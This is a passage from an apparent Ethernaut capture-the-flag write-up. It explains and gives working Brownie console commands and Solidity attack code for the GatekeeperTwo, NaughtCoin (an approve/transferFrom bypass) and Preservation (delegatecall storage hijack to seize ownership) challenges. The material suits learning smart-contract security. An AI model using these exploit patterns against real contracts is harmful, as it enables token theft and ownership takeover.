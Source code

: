 - `brownie console --network rinkeby
```bash
GatekeeperTwoAttack.deploy(challenge_address, {'from':hacking_account, 'gasLimit'
: 10000000000000000})
```

### 15. NaughtCoin
- `transfer` function is guarded, but ERC20 has another function that can do transfer which is `transferFrom`

- to call `transferFrom` function, we need to approve to the address that can use the coins, including ourself, sounds a little counter-intuitive 

- `brownie console --network rinkeby`
```bash
>>> naughtCoin = NaughtCoin.at(challenge_address)

>>> naughtCoin.balanceOf(hacking_account.address)
1000000000000000000000000

# approve ourself to use all the naughtCoin
>>> naughtCoin.approve(hacking_account.address, naughtCoin.balanceOf(hacking_account.address), {'from': hacking_account})

>>> random_address = '0x7Eb98Ef2D66f9592E7433C50b4ccE5320873c5EA'

>>> naughtCoin.transferFrom(hacking_account.address, random_address, naughtCoin.balanceOf(hacking_account.address), {'from': hacking_account})

>>> naughtCoin.balanceOf(hacking_account.address)
0
```


### 16. Preservation
- The vulnerability of this challenge contracts is that the `Preservation` is calling `LibraryContract` to modify its (Preservation) state vars, but the storage of `LibraryContract` is different than that of `Preservation`
  
  - by calling `setFirstTime` or `setSecondTime`  function of `Preservation`, which make `delegate` to `setTime(uint _time)` of `LibraryContract`, variable that get modified is actually `timeZone1Library` (address type)
  
  - So we can make a call to `setFirstTime` function, pass it an argument which is a malicious contract which will become `timeZone1Library`

  - Now we call `setFirstTime` again which `delegate` to our malicious contract and we can change the owner there

```solidity
constructor(address challengeAddress) public {
    challenge = Preservation(challengeAddress);
    attackerLib = new AttackerLib();
}

function attack() external {
    challenge.setFirstTime(uint256(address(attackerLib)));
    challenge.setFirstTime(0);
}
```
